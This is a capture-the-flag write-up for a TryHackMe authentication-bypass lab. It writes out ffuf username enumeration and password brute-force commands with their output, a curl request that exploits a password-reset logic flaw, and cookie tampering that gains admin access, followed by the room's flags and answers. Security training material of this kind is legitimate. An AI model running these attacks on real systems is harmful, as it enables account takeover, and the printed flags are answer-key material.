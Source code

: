 ```yaml
---
title: Authentication Bypass  
author: CYB3RM3
name: CYB3RM3 | Authentication Bypass  
date: 2021-10-03 17:04:02 +0100
categories: [TryHackMe, Web]
tags: [Web, Authentication Bypass]
---
```


THM Room [https://tryhackme.com/room/authenticationbypass](https://tryhackme.com/room/authenticationbypass)



## TASK 1 : Brief
### I have started the machine.
No answer

## TASK 2 : Username Enumeration
###  What is the username starting with si*** ?

```console
root@ip-10-10-40-168:~/Desktop/auth# ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.62.175/customers/signup -mr "username already exists" > valid_usernames.txt

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1
________________________________________________

 :: Method           : POST
 :: URL              : http://10.10.62.175/customers/signup
 :: Wordlist         : FUZZ: /usr/share/wordlists/SecLists/Usernames/Names/names.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=FUZZ&email=x&password=x&cpassword=x
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Regexp: username already exists
________________________________________________

:: Progress: [10164/10164] :: Job [1/1] :: 1639 req/sec :: Duration: [0:00:06] :: Errors: 0 ::
root@ip-10-10-40-168:~/Desktop/auth# cat valid_usernames.txt 
admin                   [Status: 200, Size: 3720, Words: 992, Lines: 77]
robert                  [Status: 200, Size: 3720, Words: 992, Lines: 77]
simon                   [Status: 200, Size: 3720, Words: 992, Lines: 77]
steve                   [Status: 200, Size: 3720, Words: 992, Lines: 77]      
```
{: .nolineno }

Answer : simon

### What is the username starting with st*** ?
Answer : steve

### What is the username starting with ro**** ?
Answer : robert

## TASK 3 : Brute Force 
### What is the valid username and password (format: username/password)?

```console
root@ip-10-10-40-168:~/Desktop/auth# ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.62.175/customers/login -fc 200

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1
________________________________________________

 :: Method           : POST
 :: URL              : http://10.10.62.175/customers/login
 :: Wordlist         : W1: valid_usernames.txt
 :: Wordlist         : W2: /usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=W1&password=W2
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response status: 200
________________________________________________

[Status: 302, Size: 0, Words: 1, Lines: 1]
    * W1: steve
    * W2: thunder

:: Progress: [400/400] :: Job [1/1] :: 121 req/sec :: Duration: [0:00:03] :: Errors: 0 ::
```
{: .nolineno }

Answer : steve/thunder

## TASK 4 : Logic Flaw 
### What is the flag from Robert's support ticket?

First create an account on ACME portal then log on and run the curl request with your own email : 

```console
root@ip-10-10-40-168:~/Desktop/auth# curl 'http://10.10.62.175/customers/reset?email=robert%40acmeitsupport.thm' -Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=john@customer.acmeitsupport.thm'
<!DOCTYPE html>
<html lang="en">
[...]
                        <div class="alert alert-success text-center">
                <p>We'll send you a reset email to <strong>john@customer.acmeitsupport.thm</strong></p>
            </div>
[...]
```
{: .nolineno }

![Account](/images/thm/authenticationbypass/authenticationbypass_1.png)
_Account_

You now have a open ticket : 

![Open Ticket](/images/thm/authenticationbypass/authenticationbypass_2.png)
_Open Ticket_

Following this link leads you to robert account :

![Robert Account](/images/thm/authenticationbypass/authenticationbypass_3.png)
_Robert Account_

Opening this thicket gives you the flag :

![Flag](/images/thm/authenticationbypass/authenticationbypass_4.png)
_Flag_

Answer : THM{AUTH_BYPASS_COMPLETE} 

## TASK 5 : Cookie Tampering
### What is the flag from changing the plain text cookie values?

```console
root@ip-10-10-40-168:~/Desktop/auth# curl http://10.10.62.175/cookie-test
Not Logged In
root@ip-10-10-40-168:~/Desktop/auth# curl -H "Cookie: logged_in=true; admin=false" http://10.10.62.175/cookie-test
Logged In As A User
root@ip-10-10-40-168:~/Desktop/auth# curl -H "Cookie: logged_in=true; admin=true" http://10.10.62.175/cookie-test
Logged In As An Admin - THM{COOKIE_TAMPERING}
```
{: .nolineno }

Answer : THM{COOKIE_TAMPERING}

### What is the value of the md5 hash 3b2a1053e3270077456a79192070aa78 ?
Using CrackStation <https://crackstation.net/> :

![Crackstation](/images/thm/authenticationbypass/authenticationbypass_5.png)
_Crackstation_

Answer : 463729

### What is the base64 decoded value of VEhNe0JBU0U2NF9FTkNPRElOR30= ?

With the help of CyberChef <https://gchq.github.io/CyberChef> (can be done in terminal too with "base64 -d") :

![Base64 Decode](/images/thm/authenticationbypass/authenticationbypass_6.png)
_Base64 Decode_

Answer : THM{BASE64_ENCODING}

### Encode the following value using base64 {"id":1,"admin":true}
![Base64 Encode](/images/thm/authenticationbypass/authenticationbypass_7.png)
_Base64 Encode_

Answer : eyJpZCI6MSwiYWRtaW4iOnRydWV9